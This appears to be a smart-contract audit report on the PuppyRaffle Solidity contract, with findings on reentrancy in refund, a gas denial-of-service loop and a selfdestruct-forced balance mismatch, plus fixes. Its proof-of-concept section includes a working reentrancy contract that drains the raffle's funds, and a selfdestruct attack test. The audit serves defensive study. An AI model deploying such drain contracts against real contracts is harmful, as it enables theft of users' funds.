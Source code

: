 # Findings
## High Severity
### [H-1] Not fulfilling CEI pattern in `PuppyRaffle::refund` function allows Reentrancy, withdrawing balance repeatedly from `PuppyRaffle` contract.

**Severity** 
- **Impact:** High
- **Likelihood:** High

**Description**

In `PuppyRaffle::refund`, there is check-interact-effect, which does not fulfill the CEI pattern. If an attacker contract set it's own `fallback` or `receive` function to enter `refund` function, it can re-enter the `refund` because the interaction statement `payable(msg.sender).sendValue(entranceFee);` is executed before the effect statement `players[playerIndex] = address(0);`.
```solidity
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(
        playerAddress == msg.sender,
        "PuppyRaffle: Only the player can refund"
    );
    require(
        playerAddress != address(0),
        "PuppyRaffle: Player already refunded, or is not active"
    );

    payable(msg.sender).sendValue(entranceFee);

    players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
}
```
**Impact**: The attacker contract can re-enter the `refund` repeatedly until the balance of `PuppyRaffle` gets smaller than `PuppyRaffle::entranceFee`, and steals almost of balance.

**Proof of Concept**: The `RaffleReentrancy` contract has `fallback` and `receive` function to call `PuppyRaffle::refund`. If `RaffleReentrancy::attack` is called, you might see `RaffleReentrancy` steal all balance of `PuppyRaffle`.

<details>
<summary>code</summary>

Place the following test into `test/PuppyRaffleTest.t.sol`.
1. Add `testRefundReentrancy` into the `PuppyRaffleTest`.
```solidity
function testRefundReentrancy() public {
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);
    address attacker = address(99);
    vm.deal(attacker, 10 ether);
    vm.prank(attacker);
    RaffleReentrancy attackContract = new RaffleReentrancy{
        value: entranceFee
    }(attacker, puppyRaffle, entranceFee);
    uint balanceAttackContractBefore = address(attackContract).balance;
    uint balanceRaffleBefore = address(puppyRaffle).balance;
    attackContract.attack();
    uint balanceAttackContractAfter = address(attackContract).balance;
    uint balanceRaffleAfter = address(puppyRaffle).balance;
    console.log(
        "balance of AttackContract before: %s, after: %s",
        balanceAttackContractBefore,
        balanceAttackContractAfter
    );
    console.log(
        "balance of Raffle before: %s, after: %s",
        balanceRaffleBefore,
        balanceRaffleAfter
    );
}
```
1. Add `RaffleReentrancy` outside.
```solidity
contract RaffleReentrancy {
    address owner;
    PuppyRaffle public raffle;
    uint public entranceFee;
    uint public index;

    constructor(
        address _owner,
        PuppyRaffle _raffle,
        uint _entranceFee
    ) payable {
        owner = _owner;
        raffle = _raffle;
        entranceFee = _entranceFee;
        index = 0;
    }

    function attack() public {
        address ownAddr = address(this);
        address[] memory player = new address[](1);
        player[0] = ownAddr;
        raffle.enterRaffle{value: entranceFee}(player);
        index = raffle.getActivePlayerIndex(ownAddr);
        raffle.refund(index);
    }

    function _callRefund() private {
        if (address(raffle).balance >= entranceFee) {
            raffle.refund(index);
        }
    }

    function withdraw(uint amount) public {
        require(msg.sender == owner);
        payable(owner).transfer(amount);
    }

    fallback() external payable {
        _callRefund();
    }

    receive() external payable {
        _callRefund();
    }
}
```
</details>

**Recommendation**:
1. Use CEI pattern. Move Interacting statements below the Effecting statements.
   ```diff
   -payable(msg.sender).sendValue(entranceFee);
   players[playerIndex] = address(0);
   +payable(msg.sender).sendValue(entranceFee);
   ```

2. Use a boolean lock variable, which is set to be `true` in entering, to be `false` in the end of `refund`.
3. Use `ReentrancyGuard` by Openzeppelin.

## Medium Severity
### [M-1] Unbounded for-loop checking duplicates in `PuppyRaffle::enterRaffle` is a potential DoS attack, incrementing gas costs for future entrants

**Severity**: 
- Impact: Medium
- Likelihood: Medium
 
**Description**:
In `PuppyRaffle::enterRaffle`, there is a nested for-loop with O(n^2) time-complexity to check duplicates in users entered raffle.
```solidity
for (uint256 i = 0; i < players.length - 1; i++) {
    for (uint256 j = i + 1; j < players.length; j++) {
        require(
            players[i] != players[j],
            "PuppyRaffle: Duplicate player"
        );
    }
}
```
However, because the `enterRaffle` is just a payable function without constraints like ACLs, users can call it without any risk. 
```solidity
function enterRaffle(address[] memory newPlayers) public payable { 
    ...
}
```
So, the `players` array can be easily extended, the for-loop can be unbounded.

**Impact**:
This can cause **Denial-of-Service(DoS)** attack. If malicious users call `enterRaffle` with large `newPlayers` or call `enterRaffle` repeatedly, gas cost to run new `enterRaffle` become gradually expensive. Then new late users have to pay more gas to enter, or even cannot enter the raffle and malicious users will get all rewards.

**Proof of Concept**:
The first `enterRaffle` call pushs 1000 addresses, which cost `440181896` gas. However, the second call pushs only one address, it costs `417774202` gas, which is even more than first call. That gas amount is really huge amount itself, the worst is the more calls accumulated, the more gas needed, end with `revert`.
<details>
<summary><b>code</b></summary>

Place the following test into `test/PuppyRaffleTest.t.sol`.
```solidity
function testEnterRaffleDoS() public {
    uint gasBefore;
    uint gasAfter;
    address[] memory newOnePlayer = new address[](1);
    
    // 1. Entering only one new user
    newOnePlayer[0] = address(99999);
    gasBefore = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee}(newOnePlayer);
    gasAfter = gasleft();
    console.log("1. Gas used:", gasBefore - gasAfter);

     // 2. Entering 1000 new users
    uint numberOfPlayers = 1000;
    address[] memory players = new address[](numberOfPlayers);
    for (uint i = 0; i < numberOfPlayers; i++) {
        players[i] = address(i);
    }
    gasBefore = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * numberOfPlayers}(players);
    gasAfter = gasleft();
    console.log("2. Gas used:", gasBefore - gasAfter);

     // 3. Entering only one new user
    newOnePlayer[0] = address(9999);
    gasBefore = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee}(newOnePlayer);
    gasAfter = gasleft();
    console.log("3. Gas used:", gasBefore - gasAfter);
}
```
Run test via `forge test --match-test testEnterRaffleDoS -vv`, then you can see the expected output:
```bash
Logs:
  1. Gas used: 61582
  2. Gas used: 440987844
  3. Gas used: 418609328
```

</details>


**Recommnedation**:
1. Consider allowing duplicates. Users can make new wallet address anyways, so duplicates check does not prevent the same person from entering multiple times, only the same wallet address.
2. Use **mappings** to remove unbouded for-loop checking duplicates, which cost only O(1) time-complexity.
    - State variable change: 
        ```solidity
        mapping(address => bool) public s_hasEntered;
        address[] public players; // Still need this for iteration if players need to be listed
        ```
    - Function logic change:
        ```solidity
        function enterRaffle(address[] memory newPlayers) public payable {
            // ... (pre-checks for entranceFee, etc.)
            for (uint256 i = 0; i < newPlayers.length; i++) {
                address player = newPlayers[i];
                require(!s_hasEntered[player], "PuppyRaffle: Duplicate player");
                s_hasEntered[player] = true;
                players.push(player); // Only add to players if not duplicate
            }
        }
        ```

3. If any additional for-loop traversal in `players` is needed, consider to make limitations of users in one raffle round and check before pushing new user.
    - Variable change:
        ```solidity
            uint maxPlayersInRound;
        ```
    - Function logic change:
        ```solidity
        function enterRaffle(address[] memory newPlayers) public payable {
            // ... (pre-checks for entranceFee, etc.)
            for (uint256 i = 0; i < newPlayers.length; i++) {
                // ... (checks for duplication, etc.)
                require(players.length <= maxPlayersInRound, "PuppyRaffle: max players in round")
                s_hasEntered[player] = true;
                players.push(player);
            }
        }
        ```

4. Use EnumerableSet in OpenZeppelin. Follow [link](https://docs.openzeppelin.com/contracts/5.x/api/utils#EnumerableSet).

### [M-2] Mishandling ETH in `PuppyRaffle::withdrawFees` function might block withdrawal of fees.

#### Severity
- **Impact**: Medium
- **Likelihood**: Medium

#### Description 
In `PuppyRaffle::withdrawFees`, there is a `require(address(this).balance == uint256(totalFees))` statement for checking whether raffle is done, so that there are no active users in current. But comparing the contract balance with internal sum variable might be an attack vector, which can be maliciously added by `SELFDESTRUCT` call in another contract. (Note that the operation of `SELFDESTRUCT` has been changed recently, please check it.)

#### Impact
Due to the modified balance of `PuppyRaffle` does not match with `PuppyRaffle::totalFees`, the `require` statement fails, then `PuppyRaffle::feeAddress` account cannot withdraw fee normally. There maybe some solutions like account might call other `SELFDESTRUCT` contract to adjust the balance, but these are not the correct intention of the protocol.

#### Proof of Concept:
After 4 players entered raffle and winner has been selected, an attacker inits the contract with ETH. Then call `RaffleSelfDestruct::attack` function including `selfdestruct`, which pushs remaining ETH to the `PuppyRaffle`. As a result, `PuppyRaffle::withdrawFees` reverts with regarding the raffle is not done.

<details>
<summary>code</summary>

```solidity
function testRaffleSelfDestruct() public playersEntered {
    vm.warp(block.timestamp + duration + 1);
    vm.roll(block.number + 1);

    puppyRaffle.selectWinner();
    RaffleSelfDestruct selfDestruct = new RaffleSelfDestruct{
        value: 1 ether
    }(address(puppyRaffle));

    selfDestruct.attack();
    console.log(
        "balance of PuppyRaffle: %s, totalFees: %s",
        address(puppyRaffle).balance,
        uint(puppyRaffle.totalFees())
    );
    vm.expectRevert("PuppyRaffle: There are currently players active!");
    puppyRaffle.withdrawFees();
}
```
</details>

#### Recommended Mitigation 
Modify the logic to check whether the raffle is done, removing the statement to comparing with the balance of `PuppyRaffle`.
- Check `players.length` in `withdrawFees`, revert if is not 0.
- Make a bool flag variable like `raffleOngoing`, set `true` in `enterRaffle` and `false` in `selectWinner`. Revert if the flag is true.
